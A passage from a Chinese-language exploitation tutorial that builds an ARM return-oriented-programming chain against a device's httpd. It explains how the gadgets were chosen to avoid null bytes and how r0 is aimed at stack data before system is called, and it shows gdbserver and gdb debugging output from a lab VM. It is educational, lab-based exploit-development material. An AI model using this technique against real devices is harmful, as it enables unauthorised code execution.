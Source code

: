 选取的 gadget 如下：

```bash
pop {r1, pc} 
mov r0, r1 ; pop {r4, r5, pc}
```

为什么不直接选 pop {r0,pc}？因为 pop {r0,pc}对应的地址 0x00033100 中有截断符\\x00，且 libc 基址最后也是\\x00，所以用 pip {r0,pc}会导致输入中断，无法继续利用。所以只能通过先将参数地址传给 r1，之后再 mov 到 r0 中去。

让 r0 指向栈上指定的内容，之后再执行 system 函数就能任意代码执行了。

利用脚本作者也给我们提供了模版，在这个目录下

```bash
./tools/
```

[![](assets/1706959011-af0618c9bbeab344838893412c21fc30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170016-5314acb6-bc29-1.png)

不过这个还是要我们自己调试出对应加载地址和寄存器地址

在测试虚拟机中打开 gdb，先映射一个端口，然后 target remote 192.168.2.2:1234 即可调试

```bash
root@debian-armel:~# ./tools/gdbserver --attach :8888 `ps | grep -v grep | grep httpd | awk '{prin
t $1}'`
Attached; pid = 2298
Listening on port 8888
```

```bash
root@6f747349c6c3:~/tools# gdb
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 192.168.2.2:8888
Remote debugging using 192.168.2.2:8888
```
